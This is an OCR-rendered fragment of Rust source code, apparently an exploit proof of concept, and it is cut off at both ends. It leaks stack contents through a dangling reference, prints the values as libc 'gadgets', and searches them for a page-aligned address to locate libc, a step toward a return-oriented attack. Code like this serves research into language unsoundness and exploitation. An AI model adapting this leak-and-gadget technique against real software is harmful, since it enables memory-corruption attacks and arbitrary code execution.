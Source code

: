 ```rust
        // Trigger
        return;
    }

    // Random calculation to kill compiler optimizations.
    if a[0] > 30 {
        b[0] = a[0] + a[1];
        rec(b, &mut array, attack, n, lib_c, wpos);
    } else {
        b[1] = a[2] + a[0];
        rec(&mut array, a, attack, n, lib_c, wpos);
    }
}

pub fn run() {

    // using external variables to kill compiler optimizations
    let n = if let Ok(args) = std::env::var("BLA") {
        args.len() as usize
    } else {
        30
    };

    // using external variables to kill compiler optimizations
    let n2 = if let Ok(args) = std::env::var("BLA") {
        10
    } else {
        100
    };

    // Using the dyn trait so that the compiler will execute the
    // get_dangling function in a higher stack frame.
    let my_a = get_trait_a();
    // getting the random stack
    let mut r = my_a.my_func();

    // Just random content
    let mut v: Vec<u64> = Vec::with_capacity(n);
    v.push(1);
    v.push(1);
    v.push(1);

    // Adding some content;
    let mut b: Vec<u64> = Vec::with_capacity(n);
    b.push(1);
    b.push(2);
    b.push(3);

    // We need to write output buffers to get lib-c gadgets
    println!("Give me gadegts\n");

    for i in 0..100 {
        println!("{} {:x}", i, r[i]);
    }

    let mut index = 0;
    for i in 0..100 {
        if (r[i] - 400768) % 0x1000 == 0 {
            index = i;
            break;
        }
    }

```